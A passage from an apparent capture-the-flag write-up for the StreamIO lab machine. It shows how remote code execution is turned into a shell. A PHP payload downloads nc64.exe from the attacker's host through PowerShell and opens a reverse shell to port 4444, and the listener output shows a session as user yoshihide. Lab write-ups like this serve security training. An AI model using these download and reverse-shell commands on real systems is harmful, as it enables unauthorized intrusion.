![](StreamIO_LFI3.png)

We got RCE. We now know that the web application is running under the user `yoshihide` user. We can not grab the shell.

```
# cat rce.php      
system("powershell -c wget http://10.10.14.8/nc64.exe -outfile \\programdata\\nc64.exe");
system("\\programdata\\nc64.exe -e powershell 10.10.14.8 4444");
```

![](StreamIO_LFI4.png)

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.158] 53540
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\streamio.htb\admin> whoami
whoami
streamio\yoshihide
```
